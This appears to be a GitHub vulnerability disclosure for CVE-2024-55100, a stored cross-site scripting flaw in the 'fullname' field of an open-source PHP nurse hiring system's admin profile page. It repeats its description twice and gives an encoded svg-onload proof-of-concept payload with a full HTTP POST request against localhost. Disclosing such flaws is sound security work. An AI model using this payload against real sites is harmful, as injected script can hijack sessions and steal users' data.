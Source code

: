 # CVE-2024-55100-Online-Nurse-Hiring-System-v1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ugurkarakoc
# Vendor Homepage
+ https://phpgurukul.com/online-nurse-hiring-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17826
# Overview
+ Online-Nurse-Hiring-System-v1.0 Insufficient input validation and sanitization of the 'fullname' parameter can create a significant security risk, enabling stored-cross-site scripting (XSS) attacks. By failing to properly filter and encode user-supplied input, malicious actors can inject harmful JavaScript code into web pages, tricking unsuspecting users into executing it. This can lead to a variety of malicious activities, including stealing sensitive information, hijacking user sessions, or even taking control of the entire website. To mitigate this risk, it is crucial to implement robust input validation and sanitization measures to prevent the injection of malicious code and protect the integrity of web applications.
# Vulnerability Details
+ CVE ID: CVE-2024-55100
+ Affected Version: Online-Nurse-Hiring-System-v1.0
+ Vulnerable File: /onhs/admin/profile.php
+ Parameter Name: fullname
+ Attack Type: local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-55100
+ https://nvd.nist.gov/vuln/detail/CVE-2024-55100
# Description
+ Insufficient input validation and sanitization of the 'fullname' parameter can create a significant security risk, enabling stored-cross-site scripting (XSS) attacks. By failing to properly filter and encode user-supplied input, malicious actors can inject harmful JavaScript code into web pages, tricking unsuspecting users into executing it. This can lead to a variety of malicious activities, including stealing sensitive information, hijacking user sessions, or even taking control of the entire website. To mitigate this risk, it is crucial to implement robust input validation and sanitization measures to prevent the injection of malicious code and protect the integrity of web applications.
# Proof of Concept (PoC) : 
+ Payload: `%22%3E%3Csvg+onload%3Dalert%28%22STORED%2F%2FXSS%22%29%3E`
```
---
POST /onhs/admin/profile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 182
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/onhs/admin/profile.php
Cookie: PHPSESSID=lp63nma98u3lr6mke4jv8irlhv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

sadminusername=admin&fullname=Admin%22%3E%3Csvg+onload%3Dalert%28%22STORED%2F%2FXSS%22%29%3E&emailid=admin%40gmail.com&mobilenumber=1234596321&regdate=2021-04-19+21%3A30%3A00&update=
---
```
![image](https://github.com/user-attachments/assets/ee6ccf80-ba58-41d5-b5a5-0bca8fb8310e)
